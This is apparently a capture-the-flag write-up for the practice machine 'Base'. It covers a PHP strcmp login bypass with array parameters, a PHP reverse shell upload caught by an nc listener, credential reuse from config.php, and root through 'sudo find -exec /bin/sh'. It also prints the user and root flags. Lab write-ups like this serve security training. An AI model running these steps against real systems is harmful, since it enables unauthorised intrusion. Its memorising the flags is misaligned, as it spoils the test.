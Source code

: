 # Starting Point - Base

## Enumeration

```
$ rustscan 10.10.10.48 -- -sC -sV -o port_scans

PORT   STATE SERVICE REASON  VERSION                                                                                                                                                  
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                             
| ssh-hostkey:                                                                                                                                                                        
|   2048 f6:5c:9b:38:ec:a7:5c:79:1c:1f:18:1c:52:46:f7:0b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQmgId8Z5lyLG718jzJ9KoLYQPuaKh/Z1++me8L01noJeFuv5RPeqgtoJSeWKcimm7Cw7q3HDUZEHL2LncJIad5v04ma8xgiAG+xUmiO+ntkOff06rtsEx51XRWrbuN4gcTxDCPQQyTJKnTAfleagTbtoWtPNvi82SzaaPyU88nhcn/72USczCeiVfRvawQCcAIHKqUnJzTGlSHAwd6Fj+4sq4CTw0MCrZSTG9JCQmyUVbCFJaF/AtQ0PDOQ/fVhZH8E7E+faAlJKWTYr2sIfQZmC7enT2W82zzWL/JRiQXgAzsI8B6JTJOl3gbmy3+rLY9H+1qztceYKaA8wjFT/5
|   256 65:0c:f7:db:42:03:46:07:f2:12:89:fe:11:20:2c:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA3Z4xQdzt1Zxsy5gdOFTrv3k9HtD0UppMhGWFIFWnHZgWAdONjTRzD/ZeiyGeDUgYWGGpQOzl74HXesdUhr+h0=
|   256 b8:65:cd:3f:34:d8:02:6a:e3:18:23:3e:77:dd:87:40 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINbQMzI8ONrv2TFdy0S8PtObPfizkmQ+217qx1pejwce
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that two ports are open. Port 80, on which an Apache server is running and ssh on Port 22.

# Examine Port 80 - Apache Server

![](pics/website.png)

We see a website, with no specific theme or company relation. It's just offering 5 different navigation options, of which only the Login actually works. Clicking on it, we get forwarded to a PHP Login page.

![](pics/login.png)

Instead of trying to bruteforce the login directly, we can start enumerating a bit. What I directly noticed, is, that the URL of the Login is `http://10.10.10.48/login/login.php`. Maybe we can access the parent directory.

Due to an misconfiguration, we can actually access it!

![](pics/login_directory.png)

And due to another developer mistake, there is still the `swp` file of login.php! This usually happens if the developer edits the file within the directory and then uploads the files to a repository/server without closing the editor first. Let's see if there is any valuable information in that login.php.swp file. Therefore we first download it to our local machine with wget.

```
└──╼ $ file login.php.swp     
login.php.swp: Vim swap file, version 8.0
```

Exactly as I thought. The developer used VIM and forgot to close the editor before uploading it. Using `cat`/`more` or `strings` on the file, it reveals the code of the login.php file:

```php
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: ../upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }
}
```
The above code checks the username/password combination that the user inputs, against the variables that are stored in config.php to see if they match. The following lines are interesting.

```php
if (strcmp($password, $_POST['password']) == 0) {
  if (strcmp($username , $_POST['username']) == 0) {
```

The developer is using `strcmp` to check the username and password, which is insecure and can easily be bypassed. This is due to the fact that if strcmp is given an empty array to compare against the stored password, it will return null. In PHP the == operator only checks the value of a variable for equality, and the value of NULL is equal to 0. The correct way to write this would be with the === operator which checks both value and type ([strcmp doc](https://www.php.net/manual/en/function.strcmp.php), [triple equal operator](http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/)). Let's open burp and catch the login request.

```
POST /login/login.php HTTP/1.1
Host: 10.10.10.48
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://10.10.10.48
DNT: 1
Connection: close
Referer: http://10.10.10.48/login/login.php
Cookie: PHPSESSID=nvtt5pdb6j01rmv842sp9u0n3a
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

username=test&password=test
```

Change the POST data as follows to bypass the login:

```
username[]=test&password[]=test
```

This converts the variables to arrays and bypasses strcmp. Once logged in, we see there is additional functionality to upload files.

![](pics/upload_page.png)

Now we simply upload a PHP reverse shell. It succeeds! But where is it uploaded to? Let's start gobuster and search for additional directories. 

```
[+] Threads:        10 
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt                                                         
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s                     
===============================================================                                             
2021/01/06 09:54:39 Starting gobuster                                                                    
===============================================================                                            
/.htaccess (Status: 403)                        
/.htpasswd (Status: 403)                     
/_uploaded (Status: 301)                    
/login (Status: 301)                       
/server-status (Status: 403)           
/static (Status: 301)     
```

There is a directory called `_uploaded`. Let's check this one out.

![](pics/uploaded_dir.png)

Now what's left is to start a nc listener on our local machine and then start our reverse shell by either clicking on the shell.php link or by requesting the file through wget/curl.

## Exploitation

Now that we have a reverse shell, let's see what we can exploit to get access to a user or even root.

```
└──╼ $ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.48] 49812
Linux base 4.15.0-88-generic #88-Ubuntu SMP Tue Feb 11 20:11:34 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 09:26:48 up 24 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Inspecting the `config.php`, which we previously found in the login directory, we can now see the admin password and username:

```
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

Let's try that for the user `john`, which we also just found in the home directory, by typing `su john`. And it works! We are now user `john`.

Now we can obtain the user flag: `f54846c258f3b4612f78a819573d158e`

Next step is to gain root privileges. Therefore, we first check the sudo privileges of our current user:

```
$ sudo -l
[sudo] password for john: thisisagoodpassword
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find
```

This is fairly easy. Either you already know it or simply check GTFObins.

```
john@base:~$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Post Exploitation

Obtaining the root flag: `51709519ea18ab37dd6fc58096bea949`

And we are done with the Starting Point series!